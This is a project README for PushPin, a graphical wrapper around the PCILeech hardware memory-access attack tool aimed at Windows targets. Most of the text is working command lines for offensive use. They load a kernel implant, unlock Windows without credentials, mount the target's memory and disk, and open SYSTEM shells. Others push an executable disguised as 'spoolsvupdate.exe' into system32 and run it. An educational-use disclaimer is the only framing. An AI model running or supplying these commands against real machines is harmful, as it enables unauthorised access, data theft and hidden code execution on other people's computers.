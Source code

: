 ﻿# PushPin

Visual interface wrapper to PCILeech.

## Summary
PushPin is designed to provide a rapid, easy to use visual interface wrapper to a subset of the PCILeech projects capabilities. It also makes for a nice security awarness demonistration tool.

If you're not sure what PCILeech is please read up on the project first. https://github.com/ufrisk/pcileech

## Features

The GUI workflow is similar to the PCILeech CLI, first successfully load a KMD (KMD LOADERS) and then use the KMD address to load Kernel-mode implants (ACCESS). The following PCILeech kmdload, commands and Kernel-mode implants specfic to Windows Operating Systems are included. 

* Load a kernel module into Windows7x64 or Windows 10x64  
* Unlock Windows 
* Mount the targets filesystem and memory
* Mount the targets filesystem and memory:
* SYSTEM or USER command shell
* Push and Execute a file on the target as SYSTEM

### PushPin GUI overview
![](pushpin_description.png) 

### Logging
PushPin provides a minimal level of logging of actions taken while using the GUI. The PushPinLog.txt log file is created or appended when an action is taken.

## System Requirements
Please ensure [PCILeech Version 4.6](https://github.com/ufrisk/pcileech) functions correctly with the commands listed above. 

PushPin is developed in C# targeted for .NET Framework 4.5. Compile or use the precompiled PushPin.exe binary and place it into the the same directory as pcileech.exe.

At a miminum your directory should contain:
```
PushPin.exe
pcileech.exe
FTD3XX.dll
leechcore.dll
vmm.dll
wx64_filepush.ksh
wx64_pscmd.ksh
wx64_pscmd_user.ksh
wx64_pscreate.ksh
wx64_pslist.ksh
wx64_unlock.ksh
```

#### <b>The following commands must work in the CLI for the GUI to work</b>

Load a kernel module into Windows 7x64 or Windows 10x64:
``` 
pcileech kmdload -kmd win7x64
pcileech kmdload -kmd win10_x64
pcileech kmdload -kmd win10_x64 -memmap auto 
```
*pcileech kmdload -kmd win10_x64 -memmap auto* - integrates with MemProcFS 

Unlock Windows:
```
pcileech wx64_unlock -kmd kmdaddress -0 1
```

Mount the targets filesystem and memory:
```
pcileech.exe mount -kmd kmdaddress
```

Command shell access as SYSTEM or USER:
```
pcileech wx64_pscmd -kmd kmdaddress
pcileech wx64_pscmd_user -kmd kmdaddress
```

Push and execute a file on the target:
```
pcileech wx64_filepush -kmd kmdaddress -in infile.exe -s \??\c:\windows\system32\spoolsvupdate.exe 
pcileech wx64_pscreate -kmd kmdaddress -s c:\windows\system32\spoolsvupdate.exe -0 syspid -4 1
```

## Disclaimer
Use at your own risk. This code is provided for educational purposes ONLY. Developers assume no liability and shall not be held responsible for any damage that may result from use or misuse of the provided code. It's the end users responsibility to obey all applicable local, state, federal and country specfic laws.  

### Changelog
v1.0 Initial release.